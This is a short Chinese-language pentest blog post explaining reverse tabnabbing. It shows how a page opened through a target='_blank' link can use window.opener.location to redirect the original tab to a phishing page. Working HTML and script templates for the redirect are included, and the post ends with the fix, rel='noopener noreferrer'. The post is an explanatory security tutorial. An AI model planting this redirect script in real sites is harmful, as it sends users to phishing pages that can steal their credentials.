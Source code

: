 +++
date = "2016-10-12T10:24:38+08:00"
description = ""
draft = false
tags = ["钓鱼"]
title = "利用_blank属性钓鱼"
topics = ["Pentest"]

+++

### 0x00 _blank
_blank是html中的标签属性，如```<a target="_blank" href="http://xss.reber.com/1.php">HELLO</a>```, 但若点击HELLO打开的网页1.php中有如下代码：
```
<script>
if(window.opener){
  window.opener.location  = "http://xss.reber.com/fish.html";
}
</script>
```
则原网页将转跳到http://xss.reber.com/fish.html ，这就会造成钓鱼

### 0x01 简单模板
* a.html内容如下：

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Document</title>
</head>
<body>
    <a target="_blank" href="http://xss.reber.com/1.php">HELLO</a>
</body>
</html>
```

* ```http://xss.reber.com/1.php```中1.php内容如下：

```
<html>
<head>
    <title>test</title>
    <script>
        if(window.opener){
            window.opener.location = "http://xss.reber.com/fish.html";
        }
    </script>
</head>
<body>
    <p>hello</p>
</body>
</html>
```

* 1.php同级下有个钓鱼模板fish.html，内容如下：

```
<html>
<head>
    <title>fish</title>
</head>
<body>
    <h2>This is fishing template!</h2>
</body>
</html>
```

* 点击a.html中的HELLO则会出现下面的情况，也就导致了钓鱼：

![blank钓鱼](/img/post/blank.gif)

### 0x02 修复方案
网站中的链接使用```target="_blank"```的带上```rel="noopener noreferrer nofollow"```